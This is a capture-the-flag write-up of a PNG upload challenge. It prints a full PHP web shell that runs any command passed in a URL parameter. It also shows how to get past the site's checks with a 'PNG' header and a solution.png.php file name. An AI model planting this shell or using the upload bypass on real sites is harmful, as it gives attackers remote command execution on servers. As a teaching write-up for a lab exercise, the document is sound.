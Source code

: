 After launching website, there is just a input field for file and button to upload it. 

Using `gobuster` showed us, that there is a `robots.txt` file. 
This file contains only

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

We can check `/instructions.txt` file.

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

From the `instructions.txt` we know that the uploaded file 
    - must begin with 'PNG'
    - must have `.png` extension
    - will be saved into `/uploads/<filename>`


So we can try to use webshell (https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985).
At the beginning, we will add the 'PNG' to bypass test before uploading.


```PHP
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

This file must also have .png extension, so we can just create a `solution.png.php` to bypass another check.

After succesfully uploading this file, we can go to `/uploads/solution.png.php` which enables a command line interface for us. 
Now we can look for flag in the system. I prefer to use `find / -name "*.txt"` - this searches whole system for files ending with `.txt`.

After opening found file, we get our flag.
